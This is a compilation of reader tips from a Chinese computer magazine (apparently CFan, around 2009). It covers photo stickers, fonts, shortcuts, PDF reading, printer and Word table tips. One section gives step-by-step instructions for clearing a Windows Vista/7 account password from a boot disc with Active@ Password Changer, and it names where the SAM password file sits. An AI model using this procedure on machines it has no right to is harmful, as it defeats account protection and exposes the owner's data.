小技巧：夏天光线较强，拍照最容易出现反差过大。因此尽可能避开光线过强的中午，一般选择上午9时之前和下午4时之后拍摄为好。如果错不开，就用逆光拍照，对主体人物用反光板或闪光灯作辅助补光，以降低反差。对日常生活摄影来说，不要回避阴雨天，阴雨天更富有夏天的生活气息，有些景物在雨天反而更美，尤其是在茫茫细雨中拍摄出的远景，更富有诗情画意。如果人物的背景是大面积的蓝天白云（如在海滨或山顶上），背景的亮度远远大于主体人物，容易造成主体人物曝光不足。反过来，若山林为背景、以丛林为背景、以暗影或深色景物为背景，遇前一类情况应增加一些曝光量，遇到后一种情况要减少一些曝光量。

## 自恋无限 让靓照占领电脑的边边角角

办公室新来的MM是个菜鸟，她把自己的照片剪成各种形状贴在电脑上的不同位置，但电脑内部的领地一直无法占领，后来她终于忍不住向我求教，让我教他照片的各种应用，制作大头贴、QQ表情，甚至还想学我在QQ拼音输入法上添加照片，本着博爱的精神，把我的方案拿出来与大家分享吧。

### 不进照相馆，自己制作大头贴

虽然眼下自己制作大头贴已不是什么难事，不过对于从来没有接触过数码的MM和很多菜鸟来说，还是有点困难。在制作大头贴之前，我们还是先到http://www.onlinedown.net/soft/51436.htm下载一款名为“光影魔术手”的软件吧。

- 第一步：软件运行后，在软件的工具中找到并单击“大头贴”图标按钮，在弹出的大头贴界面中，将选项卡切换到“相框”项，在大头贴下拉菜单中选择“质感”模板，然后在软件界面左侧列出的贴纸中选择一个自己喜欢的样式。
- 第二步：将摄像头数据线连接到电脑USB接口上，如果摄像头带有开关，还要将开关打开。此时，在大头贴界面中就会出现图像了，将摄像头对准你的脸部，调整摄像头焦距使脸部清晰地显示出来。再单击“存储目录”右侧的“浏览”按钮，在弹出对话框中选择一个合适的文件夹作为存储目录，勾选“自动更换贴纸”前的复选框。

### QQ表情很搞笑，我是摇头娃娃

MM有几个QQ群，经常被一些网友用照片DIY的表情逗得忍俊不禁。用自己拍摄的照片制作搞笑的QQ表情岂不是更煽情！“美图秀秀”（下载地址：http://www.newhua.com/soft/74160.htm）制作搞笑摇头娃娃表情，我就不相信你不笑！

- 第一步：软件解压缩后，只需单击下一步即可轻松安装成功。单击菜单栏上的“打开”菜单，打开用数码相机或者摄像头拍摄的图片文件，然后单击工具栏上的“闪图”选项，在左侧界面中，我们可以看到“摇头娃娃”一项。
- 第二步：单击“搞笑摇头娃娃”，右侧界面中将会出现各种搞笑效果，单击任意一种效果，这时候鼠标已经变成了一支钢笔的形状，用这支钢笔圈画人物的头部。当圆圈闭合后，你就会发现一个搞笑的摇头娃娃表情就会出现在编辑框内了，单击“复制到QQ”按钮，你就可以直接在QQ上发给朋友了，但愿他或者她不要笑得喷饭！

### 吸引眼球，我的输入法上有照片

MM每天都要打很多的字，如果能在打这些枯燥的文字时显示自己或者其他人的照片，可能会给自己带来一些趣味。目前QQ拼音输入法（下载地址：http://www.newhua.com/soft/13284.htm）支持添加照片功能。

软件安装后，切换到QQ拼音输入法，按Ctrl+Shift+M键调出QQ拼音属性设置界面，在左侧面板中单击“皮肤设置”，在排列方式项中单选“横排”，在“相框皮肤”项中，选择“（粉红）简约主义”，然后单击“确定”退出。在QQ拼音输入法上单击方框内的+号，在弹出的“设置相框图片”界面中，先单选“状态栏相框”项，然后单击对话框右侧的“使用本地图片”，找到想要放置的照片，拖动显示窗口中的橙色方框线，框选照片显示的范围，“确定”后，状态栏上将显示刚刚设置的照片。接下来，我们在“设置相框图片”界面中单选“输入栏相框”，按照上述方法找到一张合适的图片，这样，当我们打字的时候，在此条输入框的右侧将显示出设置的图片。

看着漂亮的图片，是不是工作起来更加有劲了呢？
（西安/张树忠）

## 斗牛：遨游实现网页视频轻松看的两种方法

今年第1期《电脑爱好者》杂志上，有一篇《左右逢源，世界之窗畅游视频时代》的文章介绍了“世界之窗”浏览器针对网络视频应用方面的几个技巧。特别是“视频置顶”的功能可以说是弥补了多标签浏览器“熊掌与鱼不可兼得”的一个缺陷。可拥有用户数量最多的多标签浏览器遨游难道就不能享受这种便捷的操作吗？

现在采用了多核心技术（Webkit核心和Trident核心、Trident核心即IE使用的内核）的遨游3还在测试中，目前就请遨游的爱好者们随笔者用两种方法在现

### 技巧一：巧用遨游的‘分屏’

在遨游浏览器默认的标准按钮里，有一个大家可能不常用的“分屏浏览模式”按钮。单击它，就能将我们的遨游浏览器左右开一分为二了。我们在浏览器的其中一边里打开我们想要观看的视频网站，并通过拖曳中间的分隔来调整左右窗口分割的比例到合适的位置，我们就可以在另一边的窗口里和平时一样方便的浏览其他网页了。

### 技巧二：遨游也玩视频置顶

好多优秀的软件，都留给了软件高手编写软件周边功能插件的接口。下面就给大家介绍一下这款视频置顶的辅助插件。从http://work.newhua.com/cfan/200912/popCurrentTab.rar下载这款名为popCurrentTab的插件安装包，并双击将它安装。现在，我们再在遨游里打开网络视频的时候，就可以通过单击浏览器插件栏里的这个插件图标，达到让窗口弹出置顶的效果了。

小编点评：这个技巧非常不错，尤其是前面那个，特别适合宽屏电脑在看比赛的时候使用。

借把钥匙，也要打开Vista这扇门

《电脑爱好者》2009年第8期《大门反锁，斯文祈祷不如一脚踹开》一文中介绍了用 Offline NT Password & Registry Editor 清空 Vista 密码的方法，在密码修改的过程中要输入各种符号及账户名，特别是英文不好的朋友感觉不是很方便。其实我们可以下载“一键 Ghost 2009.04.21 Beta1 光盘版”（下载地址：http://doshome.net/bbs/dispbbs.asp?boardid=4&Id=5191），利用其整合的 Active@ Password Changer 工具进行密码的修改。

第一步：将下载的文件进行解压并刻录成光盘。用刻录好的光盘启动电脑，连续敲三次回车键，到出现“一键 Ghost 主菜单”时，用方向键或者鼠标选择第5项“DOS 工具箱”。在 DOS 工具箱中选择最后一个 NTPASS 选项。

第二步：此时我们已经打开了 Active@ Password Changer 3.0 汉化版。其中第一项是选择 Windows 所在的分区，第二项是搜索所有硬盘中存放 SAM 文件（保存密码的文件）的分区，当你不能确定 SAM 存放在哪个分区时可以选择第二项，一般 SAM 文件都保存在 C:\Windows\System32\config 下，因此在这里我们输入数字“1”，敲回车键继续。

第三步：软件会打开硬盘分区列表窗口，根据 Vista 所在的分区输入相应的数字序号，我的 Vista 在第一个分区，输入数字键 0，回车，软件开始扫描此分区上的 SAM 文件，扫描完成后，按回车键继续。

第四步：在打开的用户列表窗口中，会显示出当前系统中所有的用户，一般第一项为 administrator 超级管理员。用方向键移动光标，选择你要修改密码的账户。Active@ Password Changer 对英文用户的显示没问题，但对中文用户的显示会出现一定程度的乱码，但我们可以根据 RID 等信息，找到我们自己的用户名，选择后，敲回车键继续。

第五步：此时会打开用户属性列表，显示出所选择的用户的属性。默认情况下，光标会在“清除此用户密码”选项前的括号中闪烁，我们也可以用方向键移动光标到此选项，按字母键“Y”，屏幕上会出现“属性修改成功”的提示，然后再按任意键返回。

最后按 Esc 键退出程序，重新启动电脑，这回看一看，是不是 Vista 的大门已经开启了，别犹豫了，赶快开工吧。

这款软件不仅能够打开 Vista 的大门，对令人注目的 Windows 7 也同样适用。

如果你的英文不错，想用 E 文版的，可以从 http://www.onlinedown.net/soft/65247.htm 下载 Active Boot Disk 4.1.4 光盘版，解压后将其刻录到光盘上，用光盘启动电脑，当出现 Active Boot Disk 的主界面时，用方向键移动光标选择 Active@ Password Changer 选项，敲回车，即可打开 Active@ Password Changer 工具，进行密码的修改。具体方法同上。

小编点评：只要你能接触电脑，有足够的时间，那么不管什么密码都是这么的脆弱，最好的防御方法就是把电脑锁起来！

（河北/杨福利）

“型” 男的决定——字型也要帅

字体的安装卸载

先来说说曾经一度流行的徐静蕾的字体，静蕾简体下载地址：http://web.80diy.com/font/cn/fz1/fzjlj_74263.rar。

1. 下载并解压，得到一个名为“方正静蕾简体.FON”的文件；
2. 在 Windows Vista 下，单击“开始→控制面板”打开控制面板，单击“外观和个性化”；
3. 单击“字体”选项，打开字体安装卸载窗口；
4. 按 Alt 键打开菜单栏，选择“文件→安装新字体”，选择字体，单击“安装”即可。

小提示：
通常第三方字体有两种格式：FON 和 TTF。在 Windows XP 下安装字体也很简单，只要将字体复制到系统目录下的 Fonts 文件夹中即可使用。不过字体安装得太多，系统的运行速度就会受到影响，所以千万别贪多嚼不烂哦。如果你的硬盘空间非常宝贵，删除 C:\Windows\Fonts 中的部分字体文件，也可以起到释放硬盘空间的作用。中文字体一般都有好几兆，甚至多达几十兆，你可以先删除一些对你无用的中文字体，但不要删除“宋体”，因为它是系统缺省的中文字体。屏幕字体文件（格式为 FON）也千万不要随便删除，否则一些对话框中的文字会变成乱码。SYS 格式的字体为系统字体，系统提示信息和图标描述性文字中要用到这些字体，删除后可能会使系统崩溃。还有一些符号字体，如 Marlett、Windings 等字体，也不能随便删除。

网络大补贴：
漂亮字体何处寻？下面给大家推荐一些字体下载网站：

1.  80秀——字体下载：http://www.80diy.com/font 提供了7000多种字体供下载，并且提供了字体的外观图片，便于选择。
2.  字体精品网：http://www.goodfont.net/down.asp 提供了很多个性化的字体，如：徐静蕾字体、华仔字体等。免装字体可直接下载。商业字体虽不可直接下载，但可搜索字体的下载网址。
3.  找字网：http://www.zhaozi.net 提供了专业的字体搜索引擎。不过，对于有版权的字体，没有直接提供下载网址。
4.  英文字体下载：http://font.chinahunl.com 提供了很多英文字体，形式多样，特别适合设计人员选用。
5.  源代码——字体下载：http://www.codepub.com/software/download-34-1.html 将同一品牌（如：方正、文鼎等）或某种同类（如：手写字体、中文设计字体）字体收集整理，可以一次性下载，非常方便。

字体试衣间
当我们获得一个包含大量字体的字库后，如何快速查看字体的“外貌”呢？一个一个双击打开无疑是很麻烦的，还是请“字体试衣间”来帮忙吧，下载网址：http://www.newhua.com/soft/38111.htm

1.  启动字体试衣间，单击“试用”进入软件；
2.  单击“已安装字体”，在右侧窗口可查看系统中已有字体的样式；
3.  切换到“浏览”选项，然后进入字体所在文件夹；
4.  选中字体后右击选择“安装”可安装；选择“临时加载”可不安装字体也能使用该字体，不过关闭软件后就不可再使用。

让 XP 用上微软雅黑
很多用过 Vista 的朋友会感觉里面的微软雅黑字体很漂亮，看起来平滑而美观。其实我们也可以将微软雅黑移植到 XP 中来使用。

1.  下载并安装 ClearType Tuning (http://www.newhua.com/soft/43911.htm) 和汉化补丁 (http://www.newhua.com/soft/43912.htm)，再下载“微软雅黑”（http://www.zhaozi.net/fonts/china/weiruan/2008-04-05/21361.html），再将字体复制到 XP 安装目录的 Fonts 文件夹中（一般位于 C:\Windows\Fonts，C 表示系统盘符）；
2.  在桌面上右击选择“属性”，切换到“外观”选项，单击“高级”按钮；
3.  在“项目”中选择“菜单”，将下方的字体设置为微软雅黑，单击“确定”；
4.  单击“开始→设置→控制面板”，单击“外观和主题”，双击其中的“ClearType 调整”，选择“启用 ClearType”，单击“启动向导”，选择看起来清晰的字体，单击下一步，最后单击“完成”按钮，设置后字体会更加圆滑清晰。

小提示：
如果 IE 也要使用微软雅黑，可选择菜单“Internet 选项”，单击“常规”下的“字体”按钮出现对话框，选择“微软雅黑”，最后连续“确定”即可。

常见问题解答

1.  文档中的字体为何无法完全显示？
    如果文档使用了特殊字体（如：方正静蕾简体、汉仪细行楷简等），那么复制到其他电脑上时，如果该电脑没有这些字体，文档中的字体就会改变。解决方法是：对于 Word 文档，设置好字体后可单击“Office 按钮”选择“Word 选项”出现对话框，切换到“保存”选项，选择“将字体嵌入文件”选项。这样把文档拷贝到其他任何电脑上，只要能用 Word 打开，文本的字体样式都会保留着，不会改变。

2.  为什么有些生僻字无法改变字体？
    由于一些字体库只有常用汉字的字体，所以当一些生僻字使用该字体时则会无法显示，比如：浒澪小学中的“澪”字，如果某字体库中没有这个字时，该字就会被自动修改成其他字体，有时会显示为空格或“？”。

3.  双系统如何共享字体？
    现在很多人使用双系统或多系统，这时，如果要使用第三方字体，可将字体文件复制到硬盘非系统分区中的某个文件夹，然后按 Ctrl+A，选中所有文件，右击出现菜单选择“创建快捷方式”，再选中这些快捷方式，右击选择“复制”，进入系统目录中的 Fonts 文件夹，右击选择“粘贴”。重启电脑进入其他系统后，将这些快捷方式复制到相应系统的 Fonts 文件夹即可。这样，这些字体即使以后重装系统了也不会被删除，而且可以节约硬盘空间，非常实用。

4.  将系统字体修改为微软雅黑，有些软件上的文字显示为□□，这是什么原因？
    造成这种现象可能有两种原因，一是软件可能被汉化过，又没有完全汉化，可以寻找完全汉化版的软件；二是微软雅黑字体的版本比较低，可下载最新版的微软雅黑字体，覆盖系统现有微软雅黑字体。

5.  系统字体修改为微软雅黑后，问题多多，我想恢复到原来的样子，怎么办？
    首先在桌面右击选择“属性”，在“外观”选项下单击“高级”出现对话框，将“项目”的所有选项的字体都设置为宋体，最后进入系统的 Fonts 文件夹，将里面的微软雅黑字体删除。

网络大补贴：

1.  字体是怎么制作的？ http://user.qzone.qq.com/29021929/blog/1244207404
2.  想制作自己的字体的吗？其实不难，看完本文你就会明白了。 http://user.qzone.qq.com/29021929/blog/1244296966
3.  字体无法正常安装该怎么办？ http://www.homefont.cn/html/zitibangzhu/zitibangzhu/20080421/7730.html

（江苏/周建峰）

弹指之间 快如闪电 玩转键盘上的快捷键

薇薇看到 BF 正在用飞信发信息，当她靠近时，BF 察觉后面有动静，没动鼠标飞信窗口就不见了……
走进办公室 BOSS 总是看到大家盯着电脑，可走近时，屏幕内容一下就变了，鼠标却纹丝不动……
其实只要弄明白了快捷键，一切都迎刃而解了。

小知识：啥是快捷键？
快捷键就是快速实现某种操作或功能的按键，这个按键可以是键盘的某一个键，也可能是多个按键进行组合。

危难之时，快捷键显身手
一天，我要从 D 盘中的资料文件夹中复制文件到闪盘，可开机后却发现鼠标不好用了，怎么办？
将闪盘插到电脑上，按住 Shift 键不放，禁止自动打开闪盘。按 Windows 键+E 打开资源管理器，然后按键盘上的方向键（←、↑、↓、→）选中 D 盘，然后按 Enter 键打开 D 盘，再使用方向键选择“资料”文件夹，按 Enter 键打开，最后选中文件，按 Ctrl+C 复制文件。连续按 Alt+↑键返回“我的电脑”，然后选中闪盘按 Enter 键打开，此时发现里面没有我要的文件夹，需要新建一个文件夹，按下 Alt+F 激活“文件”菜单，然后按↓键移动到“新建”菜单，再按→进入下一级菜单，选择“新建文件夹”按 Enter 键出现新文件夹，直接输入文件名，连续按 Enter 键打开新文件夹，最后按 Ctrl+V 粘贴复制的文件。完成后连续按 Alt+F4 关闭打开的窗口，直至出现“关闭计算机”对话框，用方向键选中“关闭”命令，按 Enter 键关闭电脑。
不用鼠标，所有的操作通过 16 个快捷键完成。也许要怀疑并不方便啊，其实熟练掌握了，速度可是快过鼠标！比如资深的排版人员、会计人员都会熟练应用各种快捷键。喜欢上班时偷玩的同学，也对很多快捷键了如指掌呢。

话说“全局快捷键”
有些快捷键只有软件处于活动时才能使用，而有些即使软件已经最小化了，但按下快捷键还会发生作用，如 QQ 的 Ctrl+Alt+Z 弹出消息，就是全局快捷键。全局快捷键在播放软件、聊天软件、快捷方式中用得较多。

给快捷方式设置快捷键
右击桌面上的软件快捷方式选择“属性”菜单，单击“快捷键”后面的空白框，然后按下键盘上的组合键，此时就会出现相应的按键，确定。以后只要按下设置的快捷键，就可以打开 QQ。使用这种方法，可以给桌面上的快捷方式都加上快捷键，十分方便。

给播放软件设置快捷键
边办公边听音乐，调整音量、切换歌曲，按键也能搞定（千千静听为例）。
单击千千静听主界面左上角的“主菜单→千千选项→快捷键→启用全局快捷键”，单击相应的命令，在后面可以修改或添加全局快捷键，完成后单击“全部保存”按钮即可。

小提示：
很多软件都可以设置相应的全局快捷键，如 QQ 等。不过设置全局快捷键时，一定要避免所使用的快捷键相同，当两个快捷键相同，则会有一个失效。

HotkeyP，打造超强的系统快捷键
有时候自己设置快捷键比较麻烦，有些系统功能不能设置快捷键，想过按键就能打开光驱？按键就清空回收站？按键就重启电脑？借助 HotkeyP (http://www.crsky.com/soft/14202.html) 就能轻松实现。
（江苏/姚文连）

编辑推荐：Windows 必须掌握的快捷键

| 按键组合 | 功能 | 按键组合 | 功能 | 按键组合 | 功能 | 按键组合 | 功能 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Ctrl+C | 复制文件或文字 | Shift+Delete | 不放入回收站永久删除 | Alt+Print | 将当前窗口截屏 | Windows+F | 打开查找文件窗口 |
| Ctrl+V | 将复制的文件粘贴 | Ctrl+空格键 | 切换中英文输入法 | Alt+菜单名中带底线字母 | 激活对应的菜单，如 Alt+F (File 的第一个字母) 激活文件菜单 | Windows 键+R | 打开“运行”对话框 |
| Ctrl+Z | 撤销上一步的操作 | Ctrl+Shift | 在各种输入法之间切换 | Alt+Shift+Backspace | 重做上一步 | Shift+F10 | 打开鼠标右键菜单 |
| Ctrl+A | 选择所有文件 | Ctrl+Esc | 显示“开始”菜单 | F1 | 打开当前程序的帮助文件 | | |
| Ctrl+S | 大多数软件中是保存 | Alt+F4 | 关闭当前应用程序。 | Windows+D | 最小化所有窗口 (经典老板键) | F2 | 选中文件(夹)后可重命名 |
| Windows 键 | 激活“开始”菜单 | Alt+空格键 | 打开程序最左上角的菜单 | Windows+Shift+m | 撤消最小化所有窗口 | F3 | 搜索文件或文件夹 |
| | | Alt+Tab | 在开启项目之间切换 | | | | |

DVD摇身变蓝光，GPU通用加速帮你实现

说到高清大家印象里一定是蓝光、1080p 等字眼，体积大、购买难让高清成为了镜中花水中月。我们手中的大显示器、液晶电视往往观看的都是 DVD 画质的标清视频。在等待蓝光普及的日子里，很多人为提前享受高清也想出了办法，其中倍线就是方法之一。

倍线，一个简单而又神秘的技术
倍线的原理实际上说起来很简单，大家都知道广告商宣传的 399 购买“千万级像素”数码相机是采用插值，用软件补偿的方法强行拉大图片。那么倍线也就很好解释了，它也一样是用软件把原本只有标清画质的 DVD 拉伸至高清的分辨率，分析前后数帧的画面，将其中的有效色彩信息提取出来补全到每一帧当中，实现提升色彩表现、清晰度和对比度的目的。

如何实现倍线
常见于数码影像产品附赠软件光盘中的 ArcSoft 公司的 TotalMedia Theatre 软件，便能够利用 GPU 运算能力，将低分辨率的 DVD 视频差值处理为高清视频实时播放出来。
第一步：下载 TotalMedia Theatre 软件 (下载地址：http://work.newhua.com/cfan/200913/TotalMedia.rar )，并安装。
第二步：打开 TotalMedia Theatre，在播放窗口点击右键，选择设置或者按 Ctrl+S 键。
第三步：在打开的设置窗口中，选择左侧的视频，在取消启用硬件加速，并启用 ArcSoft SimHD。
由于硬件解码会与倍线产生冲突，所以我们在使用倍线的时候需要取消硬件加速。

小提示：看什么格式的视频可以用倍线
目前可以使用倍线技术的只有 MEpg2 编码的文件，也就是说只有 DVD 盘或者是 DVD 盘上备份下来的文件可以使用。
（许宁）

硬盘“咔咔”闪不停，难道是性能不够吗？

在平时使用电脑过程中，经常会遇到硬盘灯常亮不灭，伴随着读写机械臂来回转动的声音，到底是哪个程序让硬盘如此狂转呢？让我们一起来看看是哪些程序在读写我们的硬盘。

监视系统，找出读写杀手
第一步：右击任务栏，选择“任务管理器”。
第二步：切换至“性能”选项卡，点击下方的“资源监视器”按钮。
第三步：点击硬盘下拉条，在这里我们就可以看出是哪些进程在读写硬盘。
第四步：只要通过“读 (字节/分)”和“写 (字节/分)”这两项的数值大小，就能判断出哪个程序当前在进行大量的硬盘操作，在查看时可以通过单击这两列上的标题来重新按照数值大小排列。

整治杀手，分配到郊区改造
排除系统文件后，我们找到了硬盘读写的终极杀手，那么我们该怎么办呢？
这里我们从性能的角度上纠正一个误区，在不考虑磁盘碎片的情况下，C 盘是性能最好的分区，软件、程序安装至 C 盘会有一个非常好的性能表现。
这个时候我们便可以考虑把容量不大，又要重复读写硬盘的小游戏、小程序安装至 C 盘，读写速度快了，硬盘便会安静一些。
（许宁）

小知识：为何 C 盘是性能最好的分区
因为硬盘盘片的外侧在转速不变的情况下运行速度最快，所以读写速度也最快。而分区是从外到内的，所以说一块硬盘的第一个分区一般是速度最快的。
由于 Vista 有太多计划任务和后台任务，比如索引、碎片整理，还有反间谍默认都会定期扫描，关键是这是否会影响性能，答案是不会。因为 Vista 引入了 I/O 优先级的概念，这也可以从资源监视器中看到，那些优先级为后台的大家不用在意。
比如磁盘整理，不信可以试一下，手动开始磁盘整理，当然硬盘开始狂闪，但这时候你运行软件或者游戏，基本上丝毫感觉不到延迟和性能下降，更别说卡了。

英语需要移动学，手机助我学英语

CFan 第 9 期《决胜四六级，七用电脑 50 天练就英语达人》中讲述了用电脑辅助英语学习的方法。但如果仅仅依靠电脑这一种学习途径的话未免也太少了，况且，总不能为学英语而整天对着电脑而不运动吧？其实，如果能够充分利用我们手机的资源，照样可以轻松地实现英语的学习——这可是随时随地的学习哦。

随身学英语，《移动英语》通帮忙
《移动英语通》(官方网站 http://www.englishto.com/) 是用手机学英语的很好选择，只要是支持 JAVA 的手机，都可以安装。英语四、六级考试其实是对单词、听力、阅读和写作四大方面的考察。《移动英语通》在这四个方面均有相关的功能。打开软件后，可以选择单词王的功能，根据软件制定的复习方案进行单词的记忆。同时，还有听说王、阅读王等功能可选。比较有特色的是里面的考试系统，不仅包括了许多真题，还可以自动评分，相当实用。

上网就能学英语，不用软件也能行
对于不能安装 JAVA 程序的朋友也无需着急，现在 GPRS 费用便宜了(建议包月)。WAP 网站的资源也越来越多，只要用好 WAP 功能，照样可以实现随身学英语的梦想。用手机浏览器登录 wap.iamik.cn，就可以看到里面有许多英语学习的资源，还针对英语四级、六级等不同的考试进行了详细的分类，只要有 GPRS 信号的地方，就能够轻松地学习英语了。

有了软件和网络的全面帮助，相信学英语的朋友一定会轻松拿下英语考试，为自己的成功增添一个砝码。

编辑点评：
条条大路通美国，时时处处学英语。
（湖北/木木阿木）

玩转PDF，读遍天下书

2009 年上半年的《电脑爱好者合订本》上市了，大家都知道里面配套有一张 DVD 光盘，光盘里最重要的内容，就是“电脑爱好者全文检索”，其实是可快速搜索的 PDF 电子书，她原汁原味地展现了 CFan 杂志风貌，你可以用打印机将全年 2500 页的杂志打印出来，效果可能比杂志还好哦。

但 PDF 电子书在屏幕上阅读起来似乎很麻烦，其实只要掌握了技巧，PDF 阅读也是非常方便，特别是它具有检索方便的特长。我们就以阅读 CFan 电子杂志为例，介绍如何方便快捷地阅读 PDF 电子书。

PDF 遍天下，选什么工具看
现在 90% 的电子书都是 PDF 或兼容 PDF 格式，如各大图书馆的电子书、论文检索、可下载的说明书等。但 PDF 阅读工具好的不多，强烈推荐 PDF 格式官方阅读工具——Adobe Reader。目前最新版是 9.1 (官方主页 http://www.adobe.com/cn/products/reader/)。
Adobe Reader 功能很全面，缺点是体积大，启动慢。如果仅是一般阅读，推荐一款小巧工具——Foxit Reader (http://www.onlinedown.net/soft/36437.htm)。

小提示：
★ WPS 2007/2009 个人版也可以打开 PDF 文档进行阅读。要注意的是，这些第三方工具可能会出现乱码，以及不支持检索、朗读、审阅等功能。
★ 将光盘里面的 CFan 全年的 PDF 电子杂志拷贝到硬盘，在硬盘中阅读，会大大加快各项操作的速度。

想看哪里看哪里，快速页面跳转
如果看第 12 期杂志的回音壁，提到 2008 年第 9 期第 20 页的《Excel 变身 Word》一文，手里没有杂志，或者找杂志很麻烦，则查阅电子版可能更方便。双击 2008 年第 9 期 PDF 文件，进入 Adobe Reader 阅读界面。

1.  第一步，在主界面左边，打开书签页，在书签页查找相应的标题，点击即可看到该文章。点击书签图标旁边的箭头按钮，可设置书签，如将书签的字体调小。
2.  第二步，阅读时，通过上下方向键、翻页键、鼠标滚轮键，可顺序滚动页面到需要的位置。鼠标点击或者用左右方向键，可翻页浏览。
3.  第三步，如果知道该文在 20 页，打开页面标签栏，选择第 20 个页面即可。
4.  第四步，也可以在工具栏中直接输入页码数(或按快捷键“Shift+Ctrl+N”)，回车即跳转该页。
5.  第五步，如果阅读时感觉页面拖动麻烦，可双击鼠标滚轮，弹出一个小页面，点击小页面相应位置，阅读窗口即跳转到该页面位置，此方法在页面很宽很长时比较有用。

怎么舒服怎么看，快速页面浏览
电脑阅读受制于字小、对比度高等影响，感觉很累，其实善用 Reader 页面调整功能，也能舒服地在电脑上看“书”的。

1.  第一步，放大页面。选择菜单“视图→阅读模式”(快捷键“Ctrl+H”)，可发现主界面一下干净了不少，阅读区域扩大了。
2.  第二步，页面放大到全屏幕。选择菜单“视图→全屏模式”(快捷键“Ctrl+L”)。在全屏模式下，字体可放得更大，眼睛可离屏幕更远，不适感会相应减少。
3.  第三步，切换大字体。选择菜单“视图→缩放→适合宽度”(快捷键“Ctrl+2”)，或点击图 1-F 处，可快速增大字体。结合上面的步骤，可快速将页面文字调整到适合阅读的大小。小提示：可逐步放大缩小页面。也可手动输入自己满意的放大比率。
4.  第四步，双页阅读。如果是大屏幕宽屏显示器，或者 PDF 文档字体本身分辨率很大，可以选择一屏显示二页的方法：选择菜单“视图→页面显示→双联”。如果屏幕大且可竖向旋转，单联阅读的效果也非常不错。
5.  第五步，听读。如果嫌看着累，对于单栏排版的小说类 PDF，可以选择听读(菜单“视图→朗读→启用朗读”)，朗读效果非常不错。

搜索，阅读自己感兴趣的内容
直接在图 1-H 处，输入搜索关键词“Excel 变身 Word”，可在打开的文档中搜索。不过搜索速度慢，只能当期杂志内搜索，搜索出的项目可能比较多。CFan 合订本专门制作了检索文件，可通过检索文件快速搜索全年杂志。
打开 2009 上半年合订本光盘，在“2008-2009”目录中找到“cfan2008-2009”文件，后缀名为 PDX。双击弹出搜索界面，搜索即可。

小提示：
如果只想搜索书签，也就是只搜索标题。点击搜索界面下面的“使用高级搜索选项”，在“使用这些附加条件”栏，选择“书签”、“包含”。再输入关键词即可。
（剑鹏）

打印机闹情绪调教之续集

我是一个中学信息技术课教师，我热爱生活，热爱工作，更爱 CFan 带来的精神食粮，她使我在工作中如鱼得水，游刃有余。愿我们所有的 CFaner 都能和 CFan 与时俱进，共同提高。第 10 期的《打印机闹情绪？菜鸟也可以调教》指出了有关打印的一些硬故障及处理方法，最后还教了一招打印时假死取消任务的方法，比较实用。但简单地将任务取消，只是治标并未治本。试想 BOSS 让你打印文稿，你能因假死而取消任务呢？关键还在于找出假死原因，完成任务！

假死的原因

情形一，经常假死或打印奇慢无比
首先应考虑系统杀毒，排除中毒嫌疑。其次检查系统虚拟内存设置是否过小。现在的电脑物理内存大多是 G 级的，很多人就以为虚拟内存可以小点儿。其实不然，系统和软件的很多操作都需要虚拟内存的支持，特别是大文档多任务打印的时候，仍需要足够的虚拟内存大小，一般设为物理内存的 1 到 1.7 倍左右即可。

情形二，打印队列过长，或者打印文档的页数过多
因为读取打印作业是要消耗系统资源的，作业队列越长就越容易油灯枯竭。所以，最好分几次打印，每次只打印几页。

情形三，打印的文档不多，但是文档中插入的图片等对象过多易假死
包含大量图片的文档更是消耗资源大户，如果文档中图片太多，可另存文档，在弹出的“另存为”窗口中单击右上部的“工具→压缩图片”，按照默认或需求依次确定另存即可。文档的体积会缩小到原来的 15% 左右。

顽固假死的处理
有时候假死会很彻底，甚至重启电脑和打印机都无法恢复正常打印。这时先关掉打印机电源，保持 10~30 秒钟！此时系统会自动删除打印队列最前面的一、两个作业(往往是假死的作业)。然后按下键盘的 Ctrl+Shift+Esc 打开任务管理器，在“进程”页面中找到“spoolsv.exe”进程，右击并选择“结束进程”。再打开“c:\windows\system32\spool\printers”文件夹，这里是后台打印作业的藏身处，将它们删除后再打开打印机，顽固的假死就会解除了。

其他故障
最后补充一个不得不提的硬故障，如果打印机时常出些莫明其妙的疑难杂症，例如乱码、字迹墨粉附着不牢等，请将打印机断电，检查一下打印机的电源线插头是否接触良好，插座内是否积灰过多，供电电压是否异常。因为很多打印机对低电压反应过敏。

编辑点评：
打印机假死经常遇见，这位读者简直就是处理打印机“假死”的专家，给出的方案相当全面了。
（陶秀风）# Word表格原来如此轻松

记得十年前，我刚刚参加工作的时候，总是做不好Word表格，花了几个月的时间才迈过这道坎。现在回想起来，并不是当初的Word 97表格操作太难，而是缺少实践，又没有办公软件高手指点。现在，Word 2007的表格基本操作，远比我们想象的要简单，下面我们就以制作一个美观的课程表为例，介绍在Word中如何快速制作漂亮表格！

## 表格绘制，只要不费吹灰之力

依次单击“插入→表格”按钮，在表格插入示意图中拖动鼠标，可以快速插入一个不超过8行10列（即10×8）的规则表格，打开“插入表格”对话框，则可以插入指定行列数的表格，并修改表格“自动调整操作”。默认为“固定列宽”。这里我们根据课程安排，插入一个6×8的表格。

**小提示：“自动调整”操作各个选项的含义**
- 固定列宽：插入时可以设置单元格的宽度（默认为最大），输入内容超过单元格宽度时自动换行。
- 根据内容调整：单元格宽度最小，输入内容超过单元格宽度时自动加宽。
- 根据窗口调整：单元格宽度最大，输入内容超过单元格宽度时自动换行。

## Just Do It

在Word中的表格数据输入处理没有Excel方便，因此不少人习惯在Excel中将数据表格制好再复制到Word中。

## 将文本快速转变成表格

通常我们都是先插入表格，然后再输入文字，其实，利用键盘上的“Tab键（又称制表位）”，可以先输入文字再转换成表格。用这个方法，通过适当地添加“Tab键”，可以快速将TXT文本的文字快速转换成表格。

**小提示：**
采用这种方法，还可以快速恢复被误删除的图文表格，具体操作方法请参阅09年第3期61页《办公我问图文表格不能少》一文。

## 美观表格，掌握要点不需要多

### 表格对齐

选中要调整布局的表格，打开“布局”选项卡，执行“对齐方式”命令，可以设置单元格内容的对齐方式，这里设置为“水平居中”。

**小提示：**
执行“对齐方式”命令，只能设置表格内容的对齐方式，如果要设置表格的对齐方式和文字环绕方式，则要右击表格，执行“表格属性”命令进行设置。

### 合并单元格

如果某些课占用2节课时，可将2个单元格合并成一个。拖动鼠标，选中要合并的单元格，执行“合并→合并单元格”命令。

### 自动调整行高和列宽

将鼠标指向行或列的分界线上，当光标变成上下或左右箭头形状时，拖动鼠标则可以直观地修改单元格的列宽和行高，不过一般执行“自动调整”命令，大部分表格都能自动调整到位。

### 绘制斜线表头

